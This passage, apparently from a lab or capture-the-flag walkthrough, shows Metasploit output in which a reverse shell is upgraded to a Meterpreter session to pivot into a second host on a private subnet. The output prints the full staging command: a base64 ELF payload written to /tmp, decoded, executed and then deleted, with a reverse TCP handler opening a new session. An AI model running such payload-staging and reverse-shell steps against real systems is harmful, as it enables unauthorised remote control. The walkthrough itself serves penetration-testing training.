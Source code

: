 ```
  6         shell cmd/unix                                                                          ::ffff:192.168.254.2:7575 -> ::ffff:192.168.254.3:37774 (::ffff:192.168.254.3)

msf6 exploit(multi/handler) >
```

For a more comfortable access we use the `shell_to_meterpreter` module on our new session, set the lhost to the ip from the web machine in the 192.168.254.0/24 subnet and run it. This might look like it failed but another meterpreter session opens giving us easy access in the second hop.

```
msf6 exploit(multi/handler) > use shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

[*] Using post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set session 6
session => 6
msf6 post(multi/manage/shell_to_meterpreter) > set lhost 192.168.254.2
lhost => 192.168.254.2
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 6
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.254.2:4433 via the meterpreter on session 2
[*] Sending stage (984904 bytes) to ::ffff:192.168.254.3
[-] Error: Unable to execute the following command: "echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKj+AmgCABFRieFqZlhQUVeJ4UPNgIXAeRl
OdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/YwiCY.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc
 -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/qI
Afk' < '/tmp/YwiCY.b64' ; chmod +x '/tmp/qIAfk' ; '/tmp/qIAfk' & sleep 2 ; rm -f '/tmp/qIAfk' ; rm -f '/tmp/YwiCY.b64'"
[-] Output: "[1] 70713"
[*] Stopping exploit/multi/handler
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > [*] Meterpreter session 7 opened (::ffff:192.168.254.2:4433 -> ::ffff:192.168.254.3:38654) at 2021-06-20 09:22:49 +0000

msf6 post(multi/manage/shell_to_meterpreter) >
```
